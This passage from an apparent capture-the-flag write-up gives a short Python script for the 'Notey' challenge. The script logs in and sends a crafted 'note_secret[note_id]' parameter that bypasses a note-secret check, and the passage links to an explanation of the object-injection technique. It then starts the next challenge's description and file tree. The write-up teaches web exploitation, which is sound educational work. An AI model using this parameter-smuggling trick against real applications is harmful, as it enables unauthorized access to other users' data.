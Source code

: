 ![alt text](<../assets/img/blog/blackhat/notey/local.png>)


### Getting the flag
we need to be fast when getting the flag as the server was restarting every few seconds, so we need to write a script to get the flag as soon as the server starts.

```python
from requests import Session

s = Session()
login_url = "http://a233af04b075fbec51200.playat.flagyard.com/login"
note_url = "http://a233af04b075fbec51200.playat.flagyard.com/viewNote"
creds = {"username": "logan0x", "password": "logan0x"}
note_params = {"note_id": 66, "note_secret[note_id]": 0}
print(s.get(note_url, params=note_params).text)
```


### Long explanation of the exploit:

for Long explanation of the issue reason you can check this [https://gccybermonks.com/posts/obji2sqli/](https://gccybermonks.com/posts/obji2sqli/)


3. Fastest Delivery Service

### Description
```
No time for description, I had some orders to deliver : D 
Note: The code provided is without jailing, please note that when writing exploits.

```

Directory Structure:
```
.
├── app.js
├── controllers
│   ├── adminController.js
│   ├── authController.js
│   └── orderController.js
├── data
│   └── dataStore.js
├── docker-compose.yml
├── Dockerfile
├── ex.py
├── middlewares
│   └── auth.js
├── package-lock.json
├── package.json
├── routes
```